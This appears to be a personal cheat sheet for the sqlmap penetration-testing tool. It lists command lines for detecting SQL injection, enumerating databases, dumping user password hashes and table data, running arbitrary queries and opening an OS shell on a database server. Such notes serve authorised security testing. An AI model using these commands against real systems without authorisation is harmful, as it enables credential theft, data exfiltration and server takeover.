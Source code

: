 # Opened 2024-09-20

# sqlmap

sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers.

URL --▷ https://sqlmap.org/
Tutorial --▷ https://hackertarget.com/sqlmap-tutorial/


# Test URL and POST data and return database banner (if possible)
./sqlmap.py --url="<url>" --data="<post-data>" --banner

# Parse request data and test | request data can be obtained with burp
./sqlmap.py -r <request-file> <options>

# Fingerprint | much more information than banner
./sqlmap.py -r <request-file> --fingerprint

# Get database username, name, and hostname
./sqlmap.py -r <request-file> --current-user --current-db --hostname

# Check if user is a database admin
./sqlmap.py -r <request-file> --is-dba

# Get database users and password hashes
./sqlmap.py -r <request-file> --users --passwords

# Enumerate databases
./sqlmap.py -r <request-file> --dbs

# List tables for one database
./sqlmap.py -r <request-file> -D <db-name> --tables

# Other database commands
./sqlmap.py -r <request-file> -D <db-name> --columns
                                           --schema
                                           --count
# Enumeration flags
./sqlmap.py -r <request-file> -D <db-name>
                              -T <tbl-name>
                              -C <col-name>
                              -U <user-name>

# Extract data
./sqlmap.py -r <request-file> -D <db-name> -T <tbl-name> -C <col-name> --dump

# Execute SQL Query
./sqlmap.py -r <request-file> --sql-query="<sql-query>"

# Append/Prepend SQL Queries
./sqlmap.py -r <request-file> --prefix="<sql-query>" --suffix="<sql-query>"

# Get backdoor access to sql server | can give shell access
./sqlmap.py -r <request-file> --os-shell
